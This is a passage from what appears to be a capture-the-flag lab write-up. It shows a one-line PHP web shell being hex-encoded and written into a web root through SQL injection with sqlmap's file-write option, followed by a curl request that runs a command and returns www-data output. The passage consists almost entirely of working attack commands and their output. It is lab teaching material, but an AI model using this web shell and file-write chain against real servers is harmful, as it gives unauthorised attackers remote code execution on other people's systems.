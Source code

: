 ```jsx
os-shell> 
```

> **Remote Code Execution & Reverse Shell Phase**
> 

`nano phpreverse.php`

```jsx
<?php system($_GET["cmd"]); ?>
```

`cat phpreverse.php | xxd -p`

```jsx
3c3f7068702073797374656d28245f4745545b22636d64225d293b203f3e
```

`nano hexpayload.php`

```jsx
0x3c3f7068702073797374656d28245f4745545b22636d64225d293b203f3e
```

`sqlmap -r sqlmapreq.txt --file-dest=/var/www/html/hexpayload.php --file-write=./hexpayload.php --batch`

```jsx
[04:55:43] [INFO] fingerprinting the back-end DBMS operating system
[04:55:43] [INFO] the back-end DBMS operating system is Linux
[04:55:44] [WARNING] expect junk characters inside the file as a leftover from UNION query
do you want confirmation that the local file 'hexpayload.php' has been successfully written on the back-end DBMS file system ('/var/www/html/hexpayload.php')? [Y/n] Y
[04:55:45] [INFO] the remote file '/var/www/html/hexpayload.php' is larger (65 B) than the local file 'hexpayload.php' (63B)
[04:55:45] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/metamorphosis.thm'

[*] ending @ 04:55:45 /2024-12-13/

```

`sqlmap -r sqlmapreq.txt --file-dest=/var/www/html/phprce.php --file-write=./phpreverse.php --batch`

```jsx
[04:56:32] [INFO] fingerprinting the back-end DBMS operating system
[04:56:32] [INFO] the back-end DBMS operating system is Linux
[04:56:33] [WARNING] expect junk characters inside the file as a leftover from UNION query
do you want confirmation that the local file 'phpreverse.php' has been successfully written on the back-end DBMS file system ('/var/www/html/phpreverse.php')? [Y/n] Y
[04:56:33] [INFO] the remote file '/var/www/html/phpreverse.php' is larger (33 B) than the local file 'phpreverse.php' (31B)
```

`curl -sG 'http://metamorphosis.thm/phprce.php' --data-urlencode "cmd=id" | sed 's/\x00/ /g'`

```jsx
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
